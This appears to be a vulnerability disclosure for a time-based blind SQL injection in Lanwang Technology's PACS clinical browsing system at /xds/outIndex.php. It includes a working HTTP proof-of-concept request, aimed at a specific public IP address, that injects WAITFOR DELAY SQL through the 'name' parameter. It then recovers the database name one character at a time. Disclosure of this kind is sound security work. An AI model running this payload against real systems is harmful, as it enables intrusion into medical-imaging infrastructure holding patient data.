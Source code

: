 There is a front-end SQL injection vulnerability in the clinical browsing system of Lanwang Technology Co., Ltd.

version:1.2.1
1. Impact of vulnerabilities：PACS clinical browsing system
2. Vulnerability location：/xds/outIndex.php
3. Recurrence of vulnerabilities
The login interface is as shown in the figure
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/7bd22da6-1060-4dcd-89dc-20b999c707e6)

Since the SQL injection here is a time-based blind injection, the database name needs to be determined through ASSCII. The POC is as follows.
Here, it is judged through truncation that the first position in the database is X

```
GET /xds/outIndex.php?appuser=1&name=1%22%27;if%20(ascii(substring(db_name(),1,1)))=88%20WAITFOR%20DELAY%20%270:0:5%27--%20q HTTP/1.1
Host: 106.58.209.164:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=t0plbc89dh3spdkqr54g8frbn6
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.1.23
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/53fc3632-ee49-4aee-9606-64e39d7699da)
Here, it is judged through truncation that the second digit in the database is D.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/a65d00d5-f4a7-41c8-8b17-95c6346f23b1)
Here, it is judged through truncation that the third digit in the database is S.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/57e2842b-ba89-43bf-979e-62958ce8d925)
Here, it is judged through truncation that the fourth digit of the database is 7
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/22dea395-5ef1-47bb-b02e-8460608c4f99)
Here, it is judged by truncation that the fifth bit of the database is 0
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/e5f65533-7903-43c1-98fa-c8b6445dfa1d)
Here, it is judged through truncation that the sixth digit in the database is T
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/75d11980-5a39-4656-b5fd-1ba676ff027a)
Here, it is determined through delayed injection that the name of the database is: XDS70T
